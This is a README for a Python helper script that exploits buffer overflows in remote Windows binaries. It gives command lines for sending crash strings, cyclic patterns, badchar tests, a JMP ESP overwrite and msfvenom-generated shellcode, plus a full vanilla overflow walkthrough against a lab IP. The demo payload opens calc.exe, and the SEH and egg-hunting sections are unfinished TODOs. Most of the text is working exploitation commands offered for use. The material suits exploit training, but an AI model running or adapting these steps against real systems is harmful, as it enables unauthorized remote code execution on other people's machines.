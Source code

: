 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=opencalc --nops=10
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffsize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Hex shell code file generated using msfvenom.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nops		: Amount of nops to add before and after the shell code. Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.
* --interact	: Interacts with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload

## Vanilla Buffer Overflow example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/'
```

3. Test for badchar (JMP ESP address 625012F0 found using !mona jmp -n -r ESP)
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/' --offset=1203 --hexcontent=l625012F0 --badchar=after --exclude=00
```

4. Execute shell code
```
msfvenom -p windows/exec cmd=calc.exe -b "\x00" -f hex EXITFUNC=thread -o mycalc

./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/' --offset=1203 --hexcontent=l625012F0 --shellcode=mycalc --nops=12
```


## SEH Overwrite example

TODO

## Egg Hunting example

TODO
